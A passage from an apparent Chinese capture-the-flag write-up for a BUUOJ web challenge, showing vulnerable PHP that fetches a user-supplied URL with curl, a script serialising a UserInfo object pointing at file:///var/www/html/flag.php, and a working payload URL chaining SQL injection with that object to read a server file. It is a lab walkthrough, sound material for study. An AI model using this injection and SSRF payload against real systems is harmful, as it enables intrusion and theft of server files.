 ```php
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

很明显ssrf

```php
<?php


class UserInfo
{
    public $name = "yanmie";
    public $age = 0;
    public $blog = "file:///var/www/html/flag.php";

}

$a = new UserInfo();
echo serialize($a);
```

payload:

```txt
http://c1f692aa-975e-40c3-afaf-23dc3bc26176.node3.buuoj.cn/view.php?no=-1 union/**/select 1,'yanmie','3ca19ee49ab62349ad1e6af2706e2e5bbc2d199e1f90e454df8c1a8339ba01befe92b6ce746a40333ba026fbfcac4db263500df84a67d60a6fe00b72ab24d12f','O:8:"UserInfo":3:{s:4:"name";s:6:"yanmie";s:3:"age";i:0;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```

## [GXYCTF2019]BabySQli
